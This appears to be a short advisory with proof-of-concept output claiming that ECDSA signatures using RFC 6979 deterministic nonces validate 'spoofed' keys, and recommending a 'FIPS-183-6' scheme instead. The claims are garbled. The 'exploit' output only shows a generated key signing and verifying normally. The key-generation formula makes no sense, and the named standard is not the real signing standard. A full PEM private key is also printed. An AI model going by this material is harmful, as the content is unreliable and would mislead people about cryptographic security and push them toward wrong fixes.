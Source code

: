 # ECC On The Curve Vulnerability

## Exploiting RFC-6979 Signatures

### Issue:

ECDSA RFC-6979 deterministic signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)```.

### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 26793557753140975773174731052224928334431547358353296101583685504935573483262011314276714581521552457831829802333090
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCuFM1J01vbMBqK9bGh
kq6TZfSDk2Q9oVN9uidAReRAwf375SsF9HfMTmS7YRZ8M6KhZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-183-6 signature
FIPS-183-6 Invalid Signature!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-183-6: False
```

### Recommendation:

Use 'FIPS-183-6' signature schema. The 'On the Curve' vulnerability does not impact FIPS-183-6.
